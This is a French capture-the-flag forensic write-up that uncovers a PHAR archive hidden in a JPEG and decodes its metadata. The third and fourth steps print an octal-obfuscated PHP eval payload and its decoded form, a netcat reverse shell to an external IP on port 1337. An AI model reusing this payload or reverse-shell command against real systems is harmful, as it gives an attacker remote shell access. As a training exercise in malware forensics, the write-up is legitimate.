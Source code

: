 # Write-up Forensic : Pharyngite

## 1. Détecter le PHAR caché dans le JPEG  
```bash
file auton.jpg
# → JPEG image data (mais on voit vite qu’il y a un stub PHP à l’intérieur)
strings auton.jpg | grep -E '\.phar/|__HALT_COMPILER'
# → .phar/stub.php, __HALT_COMPILER(), etc.
```

## 2. Renommer en `.phar`  
On lève toute ambiguïté pour PHP :  
```bash
cp auton.jpg auton.phar
```

## 3. Charger et dumper les métadonnées brutes  
```bash
php -d phar.readonly=0 -r '
  $p = new Phar("auton.phar");
  print_r($p->getMetadata());
'
```
> On obtient un `__PHP_Incomplete_Class Object` contenant, tout au fond :
> ```php
> <?php eval("\163\171\163\164\145\155\50\47\156\143\40\55\145\40\57\142\151\156\57\163\150\40\61\66\61\56\62\61\71\56\61\65\60\56\62\63\65\40\61\63\63\67\47\51\73");die(); ?>
> ```

## 4. Extraire & décoder la chaîne d’octals  
On va sur dcode et on z system('nc -e /bin/sh 161.219.150.235 1337');

## 5. Construction du flag  
- **Tool**  : `phpggc`  
- **IP**    : `161.219.150.235`  
- **Port**  : `1337`  

**Flag final :**  
```
CTF-DLS{phpggc;161.219.150.235;1337}
```
